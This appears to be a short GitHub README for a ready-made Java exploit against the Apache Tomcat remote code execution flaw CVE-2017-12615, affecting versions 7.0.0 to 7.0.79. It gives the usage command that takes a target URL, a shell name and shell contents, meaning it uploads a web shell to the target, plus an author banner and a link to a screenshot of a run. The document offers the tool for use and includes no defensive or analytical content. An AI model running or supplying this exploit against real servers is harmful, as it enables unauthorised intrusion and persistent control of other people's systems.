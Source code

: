 # CVE-2017-12615

Tomcat 远程代码执行漏洞 Exploit

java -jar CVE-2017-12615-Exploit.jar Url ShellName ShellValue

``` 
                          www.SecFree.com
· · · 一┳═┻︻▄ Tomcat RCE CVE-2017-12615 ▄︻┻═┳一 · · ·
        Influence:    Apache Tomcat 7.0.0 - 7.0.79
        0day Info:    https://www.secfree.com/article-399.html
        Help:         Url  ShellName  ShellValue
        Author:       secfreeTeam By Bearcat
``` 

![exploit](https://raw.githubusercontent.com/iBearcat/CVE-2017-12615/master/RunResult.png)
